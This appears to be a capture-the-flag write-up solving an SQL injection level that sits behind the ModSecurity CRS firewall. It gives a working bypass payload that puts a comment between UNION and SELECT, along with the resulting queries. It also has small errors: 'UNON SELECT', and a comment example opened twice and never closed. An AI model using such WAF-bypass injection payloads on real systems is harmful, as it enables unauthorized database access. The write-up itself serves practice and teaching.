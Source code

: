 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 36
tags: [SQLi, Multi-line comment, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a0890124-fcbf-4ebc-a6fd-dc8011043f59)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In this challenge as well, the Mod Security CRS is being used.
For this challenge, we have to use the `UNON SELECT` statement.

Let's try that by providing the following URI parameter:

```
?id=UNION SELECT
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='' UNION SELECT '' AND pw=''
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/79303dfd-43e3-4524-af78-e1019ef5e2a2)

As we can see, the input gets blocked.
In order to get around this we have to use multi-line comments.

&nbsp;

## Multi-line comments

In SQL, multi-line comments are effective while commenting out large groups of text.

```sql
SELECT * FROM table
/*
SELECT * FROM table
SELECT * FROM table
/*
```

We can utilize this to introduce space between the `UNION` and `SELECT` words as such:

```sql
UNION
/*
*/
SELECT
```

&nbsp;

In order to get around the MOD Security filter, we can use the previously used bypass and modify it to our needs. We need to select the `first` and `second` columns in order to solve this challenge.

If we provide the following URI parameter:

```
?id=-1'<@=1 UNION/**/SELECT 'first','second' -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_cyclops WHERE id='-1'<@=1 UNION
/*
*/
SELECT 'first','second' -- -' AND pw=''
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/ff3d51a5-66d4-408b-a2b1-923d945dc379)
